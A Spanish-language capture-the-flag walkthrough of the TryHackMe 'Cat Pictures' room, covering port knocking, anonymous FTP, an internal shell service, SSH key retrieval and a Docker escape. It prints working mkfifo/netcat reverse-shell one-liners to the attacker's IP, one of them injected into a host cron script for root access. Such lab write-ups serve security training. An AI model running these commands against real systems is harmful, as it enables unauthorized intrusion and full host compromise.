

| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/catpictures)  | Fácil  |  [gamercat](https://tryhackme.com/p/gamercat)  |

## Reconocimiento

Usando `nmap` detectamos 3 puertos `21 corriendo FTP "filtrado", 21 corriendo SSH "abierto", 8080 corriendo una web.`

```bash
└──╼ $map 10.10.51.194
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 16:21 CEST
Nmap scan report for 10.10.51.194
Host is up (0.088s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.65 seconds
```
Buscando en el puerto 8080, encontramos una publicación que dice: `Knock knock! Magic numbers: 1111, 2222, 3333, 4444`(`¡Toc, toc! Números mágicos: 1111, 2222, 3333, 4444`)

Entonces tocamos esos puertos [Tal vez necesites ejecutar el comando 2-3 veces para que funcione :)]

`knock 10.10.51.194 1111 2222 3333 4444`

Ejecutando `nmap` nuevamente, podemos ver que ahora el puerto FTP está abierto, ¡y acepta al usuario anónimo!

```bash
└──╼ $map 10.10.153.159
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 17:04 CEST
Nmap scan report for 10.10.153.159
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.250
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.13 seconds
```
Así que iniciemos sesión en el FTP y veamos qué hay dentro.

```bash
╰─ lanfran@parrot ❯ ftp 10.10.51.194                                                                                               ─╯
Connected to 10.10.51.194.
220 (vsFTPd 3.0.3)
Name (10.10.51.194:lanfran): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 .
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 ..
-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (162 bytes).
226 Transfer complete.
162 bytes received in 0.00 secs (53.0171 kB/s)
ftp> 
```

Al leer la nota, obtenemos un nuevo puerto y el nombre de usuario:contraseña para iniciar sesión!

## Acceso inicial - Flag 1

Desafortunadamente, no es el puerto SSH, es un "servicio de shell interno" ...

Usemos `netcat` para iniciar sesión

```bash
╰─ lanfran@parrot ❯ nc 10.10.51.194 4420                                                                                           ─╯
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls -la
total 56
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 .
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 ..
-rw-------  1 1001 1001   50 Apr  1 20:23 .bash_history
-rw-r--r--  1 1001 1001  220 Apr  1 20:21 .bash_logout
-rw-r--r--  1 1001 1001 3771 Apr  1 20:21 .bashrc
-rw-r--r--  1 1001 1001  807 Apr  1 20:21 .profile
drwxrwxr-x  2 1001 1001 4096 Apr  2 23:05 bin
drwxr-xr-x  2    0    0 4096 Apr  1 20:32 etc
drwxr-xr-x  3    0    0 4096 Apr  2 20:51 home
drwxr-xr-x  3    0    0 4096 Apr  2 22:53 lib
drwxr-xr-x  2    0    0 4096 Apr  1 20:28 lib64
drwxr-xr-x  2    0    0 4096 Apr  2 20:56 opt
drwxr-xr-x  2    0    0 4096 Apr  3 01:35 tmp
drwxr-xr-x  4    0    0 4096 Apr  2 22:43 usr
```
Ahora tenemos que obtener una shell reversa, you usé el codigo de mkfifo, ¡puedes usar otro!

Te recomiendo que uses [revshells.com](https://revshells.com) para generar los comandos para las shell reversas. Está creada y mantenida por la comunidad de CTF's!

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 1337 >/tmp/f`



Recorriendo los directorios, encontramos un binario en `/home/catlover` llamado "runme". Lo descargué en mi máquina local y usé `strings` para obtener la contraseña.

```bash
╰─ lanfran@parrot ❯ strings runme                                                                                                  ─╯
/lib64/ld-linux-x86-64.so.2
[...]
r[REDACTED]a
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
[...]
```
Genial! ¡Ahora podemos ejecutar el binario en la máquina e ingresar la contraseña!

```bash
# ./runme
Please enter yout password: [REDACTED]
Welcome, catlover! SSH key transfer queued!
# ls -la
total 32
drwxr-xr-x 2 0 0  4096 Jul  4 11:17 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rw-r--r-- 1 0 0  1675 Jul  4 11:17 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
```
Copié el archivo id_rsa en mi máquina local y lo usé para entrar por SSH.

```bash
╰─ lanfran@parrot ❯ ssh catlover@10.10.51.194 -i id_rsa                                                                            ─╯
[...]
root@7546fa2336d6:/# cd /root
root@7546fa2336d6:/root# ls -la
total 24
drwx------ 1 root root 4096 Mar 25 16:28 .
drwxr-xr-x 1 root root 4096 Mar 25 16:18 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Mar 25 16:26 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   41 Mar 25 16:28 flag.txt
root@7546fa2336d6:/root# cat flag.txt 
7[REDACTED]9
```
## Flag 2 - Root

¡Genial, tenemos la primera bandera!

Ahora somos el usuario root de un contenedor en `docker`, por lo que debemos escalar al usuario root del host.

Al revisar los archivos y leer el crontab, ¡encontramos un cron script ejecutándose dentro de la máquina host!

¡Agregue un shell inverso y obtenga una shell reversa con root en el host!

```bash
root@7546fa2336d6:/root# cat /opt/clean/clean.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 9999 >/tmp/f
```
Después de unos segundos, ¡obtenemos una shell reversa!

Consigue la bandera 2.
```bash
╰─ lanfran@parrot ❯ nc -nlvp 9999                                                                                                  ─╯
listening on [any] 9999 ...
connect to [10.9.6.21] from (UNKNOWN) [10.10.51.194] 57996
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
Congrats!!!
Here is your flag:

[REDACTED]
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!